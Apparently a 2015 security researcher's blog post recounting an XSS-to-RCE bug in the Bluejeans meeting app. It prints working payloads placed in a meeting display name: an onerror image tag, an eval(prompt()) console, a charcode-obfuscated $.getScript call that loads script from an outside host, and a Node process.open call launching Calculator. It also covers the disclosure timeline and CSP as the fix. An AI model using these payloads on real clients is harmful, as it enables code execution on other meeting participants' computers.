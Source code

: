 ```yaml
---
layout: post
title:  "Jorts: XSS to RCE in Bluejeans"
date:   2015-08-04 17:28:00
categories: xss rce bugbounty
---
```


## Jorts

Today (4 Aug 2015), I accidentally triggered a cross-site scripting (XSS) vulnerability in Bluejeans that worked when using the web application as well as the native OS X application (and possibly additional clients). Without CSP, XSS attacks using inline event handlers, `javascript:` `href`s, or `eval` are still possible. Nowadays, XSS -> Remote Code Execution (RCE) is also possible. For every person in any meeting that I join, I can execute code on their computer.

# Standup

I entered a meeting with the classic first name of `<img src=x onerror=alert()>` (the [bobby tables](http://xkcd.com/327/) of XSS). A few minutes into the conversation, [toomey] noticed a broken image pop up. Uh oh. When I asked if he also saw an alert box, my colleague [ben] chimed in and said yes.

So we have XSS. Sweet. In at least two clients. Hmmm, this could be bad.

![chat](/assets/xssrce/badtime.jpg)

## eval(prompt())

We noticed that there was some filtering going on (such as stripping quotes), so we'd have to use `String.toCharCode` to generate any string values. The web app enforced a value length but this is easily bypassed with a proxy and was not enforced in the desktop client. I'm sure the client side validation could have been bypassed, but burp was already running and [foxyproxy](https://getfoxyproxy.org/) is exactly what I need most of the time. [ben] quickly came up with a good way to explore the impact of this xss with a simple debug console:

`<img src=x onerror=eval(prompt())>` (35 chars)

This let us generate payloads without having to generate `toCharCode` code each time. Sure this isn't difficult, but an executing prompt is so much easier to use.

## Exploring the native app

[greg] took a look at the bluejeans native application and noticed it used Node. Perhaps `process.open` would work.

It did.

![chat](/assets/xssrce/process.png)

## Putting it all together

That's when [ben] put everything together using a very short payload:

`<img src=x onerror=$.getScript(String.fromCharCode(47,47,120,111,114,46,99,99))>` (80 chars)

Now join any existing meeting and enter the above payload as your name. Everyone in the room see an alert box. Those using the native apps will also see their calculators open.

![Username](/assets/xssrce/username.png)

![Alert](/assets/xssrce/alert.png)

![Calculator!](/assets/xssrce/calc.png)

## How it works

The use of `String.fromCharCode` is just a classic way to bypass filtering/escaping of quotes. `String.fromCharCode(47,47,120,111,114,46,99,99)` is `//xor.cc`.

The payload can be simplified as:

`<img src=x onerror=$.getScript("//xor.cc")>`

[`$.getScript`](https://api.jquery.com/jquery.getscript/) tells jQuery to fetch and execute the javascript at `xor.cc`. Yep, an image that failed to load eventually fetched and executed even more javascript. The fetched javascript that opens the calculator is:

`process.open("/Applications/Calculator.app/Contents/MacOS/Calculator");` (72 chars)

## Why it sort of matters

XSS is XSS is XSS. But XSS in an app with an API to the filesystem is XSS is worse. Bluejeans meetings typically are... unauthenticated. Everyone raise your hand. Now put down your hand if you have required password authentication for every meeting you have joined. Look to your left, look to your right, and notice that nobody's hand is up. If you've used bluejeans, chance are you've used it in a manner that let's this exploit work on any publicly known or guessable bluejeans meeting ID. I did not try to brute force the meeting space for open meetings. That would have been bad.

## Calculators

You can't have a good exploit unless calculators are involved. See [PDF content-type sniffing](https://bounty.github.com/researchers/avlidienbrunn.html) for an even better use of calculators in an attack.

![calc!!!](/assets/xssrce/igotcalc.png)

## Bounty report process

I could not find any contact information or bug bounty, so I emailed security@bluejeans.com and got a response very quickly.

* Reported: 8/4/2015 1:28PM
* First Response: 8/4/2015 2:04PM
* Details Provided: 8/4/2015 2:51PM
* Confirmation of receipt: 8/4/2015 3:21PM
* Issue confirmed, triaged: 8/4/2015 5:58PM
* I followed up: 8/24/2015 1:55PM
* The responded saying they have a fix for an upcoming release: 8/24/2015 9:24PM

## Conclusion

Big ups to the GitHub appsec team. Within one hour we went from XSS to RCE. And it played out like something in one of those movies or TV shows. "We popped a faux console using eval and prompt while ripping open the binary to leverage a libary with system access to perform remote code execution... to open a calculator." Most of the credit has to go to [ben] and [greg], I just found XSS and I wouldn't have even known without [toomey].

![chat](/assets/xssrce/chat.png)

And of course, one thing that would have prevented this from happening: Content Security Policy. Certainly preventing an XSS from turning into an RCE is important, but the RCE would not have been possible without the XSS and CSP would have stopped it, no matter how poorly the data was validated or escaped.

[toomey]: https://twitter.com/patricktoomey "@patricktoomey"
[ben]: https://twitter.com/mastahyeti "@mastahyeti"
[greg]: https://twitter.com/gose1 "@gose1"
